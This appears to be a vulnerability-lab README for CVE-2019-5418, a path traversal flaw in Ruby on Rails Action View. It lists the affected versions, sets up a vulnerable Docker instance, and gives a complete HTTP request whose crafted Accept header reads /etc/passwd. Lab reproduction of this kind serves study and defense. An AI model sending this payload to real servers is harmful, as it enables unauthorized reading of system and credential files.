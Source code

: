 # Ruby on Rails Path Traversal and Arbitrary File Read (CVE-2019-5418)

[中文版本(Chinese version)](README.zh-cn.md)

Ruby on Rails is a web application framework that allows developers to build web applications quickly and easily.

There is a local file inclusion vulnerability in Ruby on Rails action view <5.2.2.1, <5.1.6.2, <5.0.7.2, <4.2.11.1 and v3. 

When using `render file` in a controller to render views outside the application, Rails determines the file location based on the user-supplied Accept header. By sending an Accept header with the value `Accept: ../../../../../../../../etc/passwd{{`, attackers can exploit a path traversal vulnerability to read arbitrary files.

References:

- https://groups.google.com/forum/#!topic/rubyonrails-security/pFRKI96Sm8Q
- https://xz.aliyun.com/t/4448

## Environment Setup

Execute the following command to compile and start Ruby on Rails 5.2.2:

```
docker compose build
docker compose up -d
```

After the server starts, visit `http://your-ip:3000` to see the Ruby on Rails welcome page.

## Vulnerability Reproduction

Visit `http://your-ip:3000/robots` to see that the normal robots.txt file is being read.

To exploit the vulnerability, send the following request to read `/etc/passwd`:

```
GET /robots HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: ../../../../../../../../etc/passwd{{
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

Successfully read the file:

![](1.png)
